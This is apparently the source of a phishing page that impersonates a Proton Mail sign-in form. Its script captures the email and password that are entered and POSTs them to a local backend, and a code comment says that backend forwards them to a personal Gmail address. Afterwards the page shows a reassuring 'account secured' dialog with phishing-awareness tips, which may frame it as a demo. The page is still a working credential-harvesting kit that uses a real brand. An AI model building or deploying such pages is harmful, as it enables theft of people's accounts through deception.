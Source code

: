 Proton
<html lang="en">
<head>
  <meta charset="utf-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <title>Proton Login </title>
  <style>
    body { font-family: system-ui, -apple-system, Segoe UI, Roboto, Arial, sans-serif; margin: 0; }
    header { padding: 12px 16px; background: #f2f2f2; border-bottom: 1px solid #ddd; }
    .badge { font-size: 12px; padding: 4px 8px; border: 1px solid #888; border-radius: 4px; display: inline-block; }
    main { max-width: 420px; margin: 40px auto; padding: 0 16px; }
    form { border: 1px solid #e5e5e5; border-radius: 8px; padding: 20px; }
    label { display: block; margin-top: 12px; font-size: 14px; }
    input { width: 100%; padding: 10px; margin-top: 6px; border: 1px solid #ccc; border-radius: 6px; }
    button { margin-top: 16px; padding: 10px 14px; border: 0; border-radius: 6px; cursor: pointer; }
    .cta { background: #1a73e8; color: white; }
    .note { margin-top: 10px; font-size: 12px; color: #666; }
    .dialog {
      display: none; position: fixed; inset: 0; background: rgba(0,0,0,0.5);
      align-items: center; justify-content: center; padding: 16px;
    }
    .card { background: white; max-width: 520px; width: 100%; border-radius: 10px; padding: 20px; }
    .list li { margin: 8px 0; }
  </style>
</head>
<body>
  <header>
    <span class="badge">proton login </span>
  </header>

  <main>
    <h1>Account Sign‑In (mail)</h1>
    <form id="loginForm" autocomplete="off">
      <label>Email
        <input type="email" id="email" placeholder="name@example.com" required>
      </label>
      <label>Password
        <input type="password" id="password" placeholder="••••••••" required>
      </label>
      <button class="cta" type="submit">Sign In</button>
      <div class="note">Maximum security</div>
    </form>
  </main>

  <div class="dialog" id="dialog">
    <div class="card">
      <h2>Great news — Account ultimately secured.</h2>
      <p>Successful:</p>
      <ul class="list">
        <li><strong>Look for mismatched branding or urgency/bait language.</strong></li>
        <li><strong>Hover links</strong> to preview where they actually go.</li>
        <li><strong>Never reuse passwords</strong> across services; enable 2FA.</li>
      </ul>
      <button onclick="document.getElementById('dialog').style.display='none'">Close</button>
    </div>
  </div>

  <script>
    const form = document.getElementById('loginForm');
    form.addEventListener('submit', async (e) => {
      e.preventDefault();
      const email = document.getElementById('email').value;
      const password = document.getElementById('password').value;
      // Send credentials to backend mail (hugheskira294@gmail.com)
      await fetch('http://localhost:3000/send-login', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify({email, password})
      });
      document.getElementById('email').value = '';
      document.getElementById('password').value = '';
      document.getElementById('dialog').style.display = 'flex';
    });
  </script>
</body>
</html>
